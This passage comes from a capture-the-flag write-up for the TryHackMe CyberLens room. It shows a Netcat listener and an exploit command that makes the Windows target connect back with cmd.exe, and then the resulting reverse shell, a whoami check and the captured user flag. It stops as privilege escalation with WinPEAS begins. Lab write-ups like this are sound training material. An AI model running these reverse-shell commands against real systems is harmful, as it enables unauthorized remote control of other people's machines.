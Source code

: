 ### Netcat - Reverse Shell

We can close it and open a [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) listener :

```
──(mdn0x㉿mdn0xKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ nc -lvnp 1337 
listening on [any] 1337 ...

```

Now we execute the [Exploit](../../3%20-%20Tags/Hacking%20Concepts/Exploit.md) :

```
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Cybelens]
└─$ python3 exploit.py cyberlens.thm 61777 "C:/Users/Public/nc.exe 10.8.162.183 1337 -e cmd.exe"

```

And we check [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) listener :

```
┌──(mdn0x㉿mdn0xKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ nc -lvnp 1337 
listening on [any] 1337 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.60.241] 49859
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
cyberlens\cyberlens

```

Boom we have it .

Now we go to Desktop through `cd` and `dir` and catch the first with `type` :

```
C:\Windows\system32>cd C:/Users/CyberLens/Desktop
cd C:/Users/CyberLens/Desktop

C:\Users\CyberLens\Desktop> type user.txt
type user.txt
THM{T1k4-CV3-f0r-7h3-w1n}

```

## Privilege Escalation

### WinPEAS

We can use [WinPEAS](../../3%20-%20Tags/Hacking%20Tools/WinPEAS.md) to auto find potential vectors for the [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) we have to transfer the executable from our machine to the target machine :
